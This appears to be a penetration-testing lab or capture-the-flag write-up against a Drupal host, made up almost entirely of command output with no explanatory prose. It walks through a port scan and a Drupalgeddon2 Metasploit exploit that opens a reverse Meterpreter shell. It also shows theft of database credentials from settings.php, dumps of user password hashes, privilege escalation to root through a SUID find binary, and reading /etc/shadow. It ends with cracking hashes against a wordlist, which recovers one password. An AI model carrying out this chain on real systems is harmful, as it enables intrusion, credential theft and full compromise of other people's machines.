

## 192.168.100.52/drupal
```bash
Nmap scan report for ip-192-168-100-52.us-west-1.compute.internal (192.168.100.52)
Host is up (0.00062s latency).
Not shown: 65528 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.100.5
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 65534    65534         318 Apr 18  2022 updates.txt
22/tcp   open  ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 60:5e:75:8e:64:66:73:a1:b1:ff:c6:d8:bf:26:70:b6 (RSA)
|   256 a5:9e:6c:3b:d9:b0:f0:7a:30:ee:43:44:0c:fd:e3:74 (ECDSA)
|_  256 d5:b0:1f:62:fa:a3:50:96:12:e4:2b:10:8f:29:d0:56 (ED25519)
80/tcp   open  http          Apache httpd 2.4.41
|_http-title: Index of /
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2018-02-21 17:28  drupal/
|_
139/tcp  open  netbios-ssn   Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn   Samba smbd 4.13.17-Ubuntu (workgroup: WORKGROUP)
3306/tcp open  mysql         MySQL 5.5.5-10.3.34-MariaDB-0ubuntu0.20.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.34-MariaDB-0ubuntu0.20.04.1
|   Thread ID: 88
|   Capabilities flags: 63486
|   Some Capabilities: IgnoreSigpipes, FoundRows, IgnoreSpaceBeforeParenthesis, Speaks41ProtocolOld, LongColumnFlag, ODBCClient, SupportsTransactions, InteractiveClient, Support41Auth, Speaks41ProtocolNew, DontAllowDatabaseTableColumn, SupportsCompression, SupportsLoadDataLocal, ConnectWithDatabase, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: "@[,fANFQFL)&$}p9j+4
|_  Auth Plugin Name: mysql_native_password
3389/tcp open  ms-wbt-server xrdp
MAC Address: 02:3E:40:E4:C0:EB (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=1/29%OT=21%CT=1%CU=43458%PV=Y%DS=1%DC=D%G=Y%M=023E40%T
OS:M=697AB36B%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=109%TI=Z%CI=Z%II=I
OS:%TS=A)OPS(O1=M2301ST11NW7%O2=M2301ST11NW7%O3=M2301NNT11NW7%O4=M2301ST11N
OS:W7%O5=M2301ST11NW7%O6=M2301ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F
OS:4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M2301NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T
OS:=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R
OS:%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=
OS:40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0
OS:%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R
OS:=Y%DFI=N%T=40%CD=S)

Network Distance: 1 hop
Service Info: Host: IP-192-168-100-52; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 0s, deviation: 2s, median: 0s
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.13.17-Ubuntu)
|   Computer name: ip-192-168-100-52
|   NetBIOS computer name: IP-192-168-100-52\x00
|   Domain name: us-west-1.compute.internal
|   FQDN: ip-192-168-100-52.us-west-1.compute.internal
|_  System time: 2026-01-29T01:09:59+00:00
|_nbstat: NetBIOS name: IP-192-168-100-, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2026-01-29T01:09:55
|_  start_date: N/A

TRACEROUTE
HOP RTT     ADDRESS
1   0.62 ms ip-192-168-100-52.us-west-1.compute.internal (192.168.100.52)
```
```bash
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set TargETURI /drupal/
TargETURI => /drupal/
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set RHOSTS 192.168.100.52
RHOSTS => 192.168.100.52
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > run

[*] Started reverse TCP handler on 192.168.100.5:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Sending stage (39282 bytes) to 192.168.100.52
[*] Meterpreter session 1 opened (192.168.100.5:4444 -> 192.168.100.52:43128 ) at 2026-01-29 09:12:06 +0530

meterpreter > 
```
```bash
meterpreter > download settings.php
[*] Downloading: settings.php -> /root/settings.php
[*] Downloaded 25.94 KiB of 25.94 KiB (100.0%): settings.php -> /root/settings.php
[*] download   : settings.php -> /root/settings.php
meterpreter > 
```

```bash
mysql -u drupal -p syntex0421 -h 127.0.0.1 -P 3306 drupal
      'database' => 'drupal',
      'username' => 'drupal',
      'password' => 'syntex0421',
      'host' => 'localhost',
      'port' => '3306',
      'driver' => 'mysql',
      'prefix' => '',
 *   $drupal_hash_salt = file_get_contents('/home/example/salt.txt');
$drupal_hash_salt = 'e-5a2o6PCMfkMD1w-sV496_xJRE8sKku2o3CKeyTM9c';
```
mysql -u drupal --password='syntex0421' -e 'use drupal; select * from users'
```bash
www-data@ip-192-168-100-52:/var/www/html/drupal/sites/default$ mysql -u drupal --password='syntex0421' -e 'use drupal; select * from users'
<d='syntex0421' -e 'use drupal; select * from users'           
uid     name    pass    mail    theme   signature       signature_format        created access  login   status  timezone        language        pictureinit    data
0                                               NULL    0       0       0       0       NULL            0               NULL
1       admin   $S$D67i0qFmSLMLwZ9PU7VEocSS9fvV1JaSeJxQMgCid80hGbq6wXZH admin@syntex.com                        NULL    1650232322      1650248652    1650248498       1       America/New_York                0       admin@syntex.com        b:0;
2       auditor $S$DV.wsqkmKY3y5VW.icW/g5NTU3h.UA01nxqL9Cro27GaSBYpH4WC auditor@syntex.com                      filtered_html   1650234408      0     01       America/New_York                0       auditor@syntex.com      b:0;
3       dbadmin $S$DZcGD5qcb6xso1E/Mu6DJP4uPi5DfY28kBEyuIab8Pod1saBaImN dbadmin@syntex.com                      filtered_html   1650248436      1769658991     1769638933      1       America/New_York                0       dbadmin@syntex.com      b:0;
4       Vincenzo        $S$DGnS.dK3q2FeWeNbLikdI5Hk/XdBFI2jBFkmPvv/v9Ln8vjIanIu vincenzo@syntext.com                    filtered_html   1650248490    00       1       America/New_York                0       vincenzo@syntext.com    b:0;
5       mike    $S$DQ4XKCwoC110yIE17u5jJxZIF7o5zDezSyCcubZpW1wxU/AW4Tky abc@gmail.com                   filtered_html   1769637911      0       0     0America/New_York                0       abc@gmail.com   NULL
```
```bash
www-data@ip-192-168-100-52:/var/www/html/drupal/sites/default$ mysql -u drupal --password='syntex0421' -e 'use drupal;SELECT n.nid, n.type, n.title, u.name FROM node n JOIN users u ON n.uid = u.uid;'
< u.name FROM node n JOIN users u ON n.uid = u.uid;'           
nid     type    title   name
1       article Syntex Dynamics - What we do    auditor
```
```bash
www-data@ip-192-168-100-52:/var/www/html/drupal/sites/default$ cat /etc/passwd | grep home
<l/drupal/sites/default$ cat /etc/passwd | grep home           
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
cups-pk-helper:x:118:124:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
auditor:x:1001:1001::/home/auditor:/bin/bash
dbadmin:x:1002:1002::/home/dbadmin:/bin/bash
```
```bash
auditor@ip-192-168-100-52:~$ cat flag.txt
cat flag.txt
27f0dcc87a124fc182226cf5de506cca
```
```bash
auditor@ip-192-168-100-52:~$ uname -r
uname -r
5.13.0-1021-aws
```
```bash
auditor@ip-192-168-100-52:~$ find / -perm -4000 -type f 2>/dev/null | grep /usr/bin
<d / -perm -4000 -type f 2>/dev/null | grep /usr/bin
/snap/core20/1270/usr/bin/chfn
/snap/core20/1270/usr/bin/chsh
/snap/core20/1270/usr/bin/gpasswd
/snap/core20/1270/usr/bin/mount
```
```bash
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/fusermount3
/usr/bin/pkexec
/usr/bin/find
/usr/bin/chfn
/usr/bin/chsh
auditor@ip-192-168-100-52:~$ 
```
```bash
auditor@ip-192-168-100-52:~$ find . -exec /bin/bash -p \; -quit
find . -exec /bin/bash -p \; -quit
cat /etc/shadow
root:$6$v8b2/P8T26uEUwvM$TBiao8o1dfqQrGPPcebRj6A6cNiixcy6/r/AFtN5Swk7N1kpg/8UyQK0pXFwdLfy5Ed/71VN91nJ6.3JyAN/00:18998:0:99999:7:::
daemon:*:18960:0:99999:7:::
bin:*:18960:0:99999:7:::
sys:*:18960:0:99999:7:::
```
```bash
root@kali:~# john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt root.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:04 0.06% (ETA: 04:14:59) 0g/s 2333p/s 2333c/s 2333C/s krystal1..20072007
0g 0:00:02:34 2.15% (ETA: 04:15:03) 0g/s 2339p/s 2339c/s 2339C/s clay10..christy18
0g 0:00:06:46 5.78% (ETA: 04:13:02) 0g/s 2324p/s 2324c/s 2324C/s genius69..gemini36
0g 0:00:08:38 7.27% (ETA: 04:14:35) 0g/s 2288p/s 2288c/s 2288C/s vassili..varisara
0g 0:00:09:05 7.54% (ETA: 04:16:20) 0g/s 2249p/s 2249c/s 2249C/s tevitafatafehi..tetanne79
0g 0:00:11:22 9.26% (ETA: 04:18:42) 0g/s 2176p/s 2176c/s 2176C/s mmad3403..mlt4jdt
0g 0:00:13:00 10.05% (ETA: 04:25:19) 0g/s 2055p/s 2055c/s 2055C/s kutie17..kurt6794
0g 0:00:13:46 10.38% (ETA: 04:28:30) 0g/s 2004p/s 2004c/s 2004C/s joslynjones..joshuamonte
0g 0:00:13:53 10.44% (ETA: 04:28:55) 0g/s 1997p/s 1997c/s 1997C/s joed47..joe1212
0g 0:00:16:05 11.43% (ETA: 04:36:39) 0g/s 1877p/s 1877c/s 1877C/s faiz06..fairyland07
0g 0:00:17:33 12.67% (ETA: 04:34:26) 0g/s 1898p/s 1898c/s 1898C/s bboyloco..bbeclo
0g 0:00:17:40 12.78% (ETA: 04:34:10) 0g/s 1901p/s 1901c/s 1901C/s azra78..azirrieam
0g 0:00:18:25 13.45% (ETA: 04:32:50) 0g/s 1917p/s 1917c/s 1917C/s Lejla.Palmer..Lauragoodman006
0g 0:00:28:44 23.19% (ETA: 04:19:48) 0g/s 2042p/s 2042c/s 2042C/s stomakis1..stoktipp
0g 0:00:34:10 28.53% (ETA: 04:15:41) 0g/s 2077p/s 2077c/s 2077C/s ridzul..ridiss
0g 0:00:45:50 39.90% (ETA: 04:10:46) 0g/s 2123p/s 2123c/s 2123C/s mamisilvi..maminnym0ui
0g 0:00:48:36 42.61% (ETA: 04:09:58) 0g/s 2131p/s 2131c/s 2131C/s lil legs..liktus
0g 0:00:51:11 45.07% (ETA: 04:09:28) 0g/s 2138p/s 2138c/s 2138C/s kimimarolover12..kimie143
0g 0:01:02:36 56.19% (ETA: 04:07:19) 0g/s 2160p/s 2160c/s 2160C/s firebladewomen..fireabll
0g 0:01:08:20 61.72% (ETA: 04:06:38) 0g/s 2168p/s 2168c/s 2168C/s cucurig..cucoytati
0g 0:01:15:34 68.84% (ETA: 04:05:41) 0g/s 2177p/s 2177c/s 2177C/s b-random..b-boyforlife
0g 0:01:17:15 70.48% (ETA: 04:05:31) 0g/s 2179p/s 2179c/s 2179C/s anewgirl..anetra96
0g 0:01:17:53 71.11% (ETA: 04:05:26) 0g/s 2180p/s 2180c/s 2180C/s alzirasr..alyzaex
0g 0:01:32:12 84.51% (ETA: 04:05:01) 0g/s 2195p/s 2195c/s 2195C/s 5665546..566414
0g 0:01:48:11 DONE (2026-01-30 04:04) 0g/s 2209p/s 2209c/s 2209C/s  naptown410..*7¡Vamos!
Session completed. 
root@kali:~# 
```
```bash
[I] Found new SID: S-1-22-1
[I] Found new SID: S-1-5-21-2317241847-448376672-3682803685
[I] Found new SID: S-1-5-32
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\ubuntu (Local User)
S-1-22-1-1001 Unix User\auditor (Local User)
S-1-22-1-1002 Unix User\dbadmin (Local User)
[+] Enumerating users using SID S-1-5-21-2317241847-448376672-3682803685 and logon username '', password ''
S-1-5-21-2317241847-448376672-3682803685-500 *unknown*\*unknown* (8)
S-1-5-21-2317241847-448376672-3682803685-501 IP-192-168-100-52\nobody (Local User)
S-1-5-21-2317241847-448376672-3682803685-502 *unknown*\*unknown* (8)
S-1-5-21-2317241847-448376672-3682803685-513 IP-192-168-100-52\None (Domain Group)
S-1-5-21-2317241847-448376672-3682803685-514 *unknown*\*unknown* (8)
S-1-5-21-2317241847-448376672-3682803685-515 *unknown*\*unknown* (8)
S-1-5-21-2317241847-448376672-3682803685-1001 *unknown*\*unknown* (8)
S-1-5-21-2317241847-448376672-3682803685-1002 *unknown*\*unknown* (8)
S-1-5-21-2317241847-448376672-3682803685-1003 *unknown*\*unknown* (8)
S-1-5-21-2317241847-448376672-3682803685-1004 *unknown*\*unknown* (8)
[+] Enumerating users using SID S-1-5-32 and logon username '', password ''
S-1-5-32-500 *unknown*\*unknown* (8)
S-1-5-32-501 *unknown*\*unknown* (8)
S-1-5-32-544 BUILTIN\Administrators (Local Group)
S-1-5-32-545 BUILTIN\Users (Local Group)
S-1-5-32-546 BUILTIN\Guests (Local Group)
S-1-5-32-547 BUILTIN\Power Users (Local Group)
S-1-5-32-548 BUILTIN\Account Operators (Local Group)
S-1-5-32-549 BUILTIN\Server Operators (Local Group)
S-1-5-32-550 BUILTIN\Print Operators (Local Group)
```
```bash
root@kali:~# cat dbadmin.hash 
$S$DZcGD5qcb6xso1E/Mu6DJP4uPi5DfY28kBEyuIab8Pod1saBaImN
root@kali:~# john --format=Drupal7 --wordlist=/usr/share/wordlists/rockyou.txt dbadmin.hash
Using default input encoding: UTF-8
Loaded 1 password hash (Drupal7, $S$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 32768 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
sayang           (?)     
1g 0:00:00:00 DONE (2026-01-30 01:56) 2.857g/s 342.8p/s 342.8c/s 342.8C/s iloveme..sayang
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```